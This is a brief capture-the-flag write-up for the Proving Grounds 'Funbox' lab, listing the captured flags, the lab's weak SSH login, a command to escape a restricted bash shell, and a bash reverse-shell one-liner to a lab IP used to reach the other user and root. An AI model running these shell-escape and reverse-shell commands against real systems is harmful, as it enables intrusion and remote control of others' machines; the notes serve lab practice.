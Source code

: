 # Proving Grounds Funbox

> Saikat Karmakar | Sept 26 : 2021

> ip :  192.168.118.77  

---

1. user flag
```
eb875270079e9bebaecff03d1715d2c6
```
2. root flag
```
896e0274161f72e87cb43de10d1c8696
```

funbox.fritz.box

---
***Notes***

- ssh creds
```
joe : 12345
```

- escape rbash
```bash
ssh joe@funbox.fritz.box -t "bash --noprofile" 
```

- rev-shell to get to user funny & also the root user

```bash
bash -i >& /dev/tcp/192.168.49.118/1234 0>&1
```
